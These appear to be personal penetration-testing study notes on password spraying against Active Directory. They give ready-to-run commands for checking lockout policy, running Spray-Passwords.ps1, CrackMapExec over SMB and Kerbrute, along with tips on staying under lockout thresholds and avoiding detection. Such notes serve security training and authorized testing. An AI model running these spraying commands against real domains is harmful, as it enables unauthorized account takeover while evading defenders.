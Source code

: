 public:: true

- In case you already have access to a domain user, use it to grab a list of [valid](((655b6438-8ebc-46f6-a345-059d33f3ad83))) domain [users](((655b6438-2cff-4396-b2d2-a9cf0077d0bb))). This will be very helpful with the following commands.
- Before brute-forcing any domain account we always better check what the *lockout policy* looks like.
  id:: 655c7f48-d435-469c-ac3d-7bb4a56c888e
	- From a shell of a domain user we can use `net` as follow:
	  ```cmd
	  net accounts
	  ```
	  ```cmd
	  C:\Users\jeff> net accounts
	  Force user logoff how long after time expires?:       Never
	  Minimum password age (days):                          1
	  Maximum password age (days):                          42
	  Minimum password length:                              7
	  Length of password history maintained:                24
	  Lockout threshold:                                    5
	  Lockout duration (minutes):                           30
	  Lockout observation window (minutes):                 30
	  Computer role:                                        WORKSTATION
	  The command completed successfully.
	  ```
	- #+BEGIN_CAUTION
	  Too many failed logins may **block the account** for further attacks and possibly **alert system administrators**.
	  #+END_CAUTION
- Password Spray
	- [`Spray-Passwords.ps1`](https://github.com/michele-dedonno/MDD-scripts/blob/master/Spray-Passwords.ps1)
	  logseq.order-list-type:: number
	  It automatically identifies domain users and sprays a password against them according to the [lockout policy](((655c7f48-d435-469c-ac3d-7bb4a56c888e))).
		- This script uses the [`DirectoryEntry`](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.directoryentry?view=dotnet-plat-ext-6.0) constructor to brute-force accounts
		  ```powershell
		  New-Object System.DirectoryServices.DirectoryEntry($CurrentDomain, $username, $password)
		  ```
		- Usage examples
			- `.\Spray-Passwords.ps1 -Pass 'Summer2016'`
			- `.\Spray-Passwords.ps1 -Pass 'Summer2016,Password123' -Admins`
			- `.\Spray-Passwords.ps1 -File .\passwords.txt -Verbose`
			- `.\Spray-Passwords.ps1 -Url 'https://raw.githubusercontent.com/improsec/Get-bADpasswords/master/Accessible/PasswordLists/weak-passwords-common.txt' -Verbose`
	- [[CrackMapExec]]
	  logseq.order-list-type:: number
		- Iterate through a list of users and try to authenticate against a specified SMB server using a fixed password.
		  ```powershell
		  crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
		  ```
		- #+BEGIN_WARNING
		  Brute-forcing accounts via the SMB protocol have some drawbacks.
		  #+END_WARNING
			- For every authentication attempt a full SMB connection has to be set up and then terminated.
			  logseq.order-list-type:: number
			- It is very noisy due to the generated network traffic.
			  logseq.order-list-type:: number
			- It is also quite slow in comparison to other techniques.
			  logseq.order-list-type:: number
	- [[Kerbrute]]
	  logseq.order-list-type:: number
		- Iterate through a list of users and file [AS-REQ](((655b1c01-e1e1-4be0-b245-ff8c9482df38)))s to the domain controller using a fixed password.
		  ```bash
		  kerbrute_linux_amd64 passwordspray -d corp.com .\usernames.txt "Nexus123!"
		  ```
		- #+BEGIN_TIP
		  [Fast and stealth!](((655cbd1e-9c3e-4f5c-af2e-247535fac289)))
		  #+END_TIP